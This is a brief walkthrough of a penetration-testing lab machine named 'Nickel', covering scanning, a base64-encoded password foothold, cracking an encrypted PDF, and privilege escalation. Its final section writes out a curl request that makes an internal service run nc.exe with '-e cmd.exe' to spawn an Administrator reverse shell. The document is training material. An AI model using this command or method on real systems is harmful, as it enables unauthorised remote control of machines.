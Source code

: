 # Nickel

Starting off with an nmap scan

![](<../../.gitbook/assets/image (3).png>)

Going to port 80

![](<../../.gitbook/assets/image (4).png>)



Intercepting the commands using burp suite we can identify what's going on

We could use burp to send a post request too but I made use of curl

![](<../../.gitbook/assets/image (7).png>)



Seems like it was base 64 encoded and can use the password to get initial foothold

![](<../../.gitbook/assets/image (16).png>)

### Priv Esc

Going to the ftp directory

![](<../../.gitbook/assets/image (9).png>)

I transferred the file to my attacker machine using

`scp ariah@192.168.79.99:C:/ftp/Infrastructure.pdf .`

``

`The file was encrypted`

![Cracked the password using pdfcrack](<../../.gitbook/assets/image (6).png>)

``

Taking a look at the pdf

![
](<../../.gitbook/assets/image (5).png>)

An internal service seems to be running as authority

![](<../../.gitbook/assets/image (14).png>)



We can make use of nc.exe by running it as a root user and get a shell as Administrator



So i ran

C:\Users\ariah\Desktop>curl [http://nickel/?cmd](http://nickel/?cmd) /c C:\Users\ariah\Desktop\nc.exe 127.0.0.1 4444 -e cmd.exe\


With url encoding

curl [http://nickel/?cmd%20%2Fc%20C%3A%5CUsers%5Cariah%5CDesktop%5Cnc.exe%20127.0.0.1%204444%20-e%20cmd.exe](http://nickel/?cmd%20%2Fc%20C%3A%5CUsers%5Cariah%5CDesktop%5Cnc.exe%20127.0.0.1%204444%20-e%20cmd.exe)

![](<../../.gitbook/assets/image (17).png>)

![](<../../.gitbook/assets/image (15).png>)
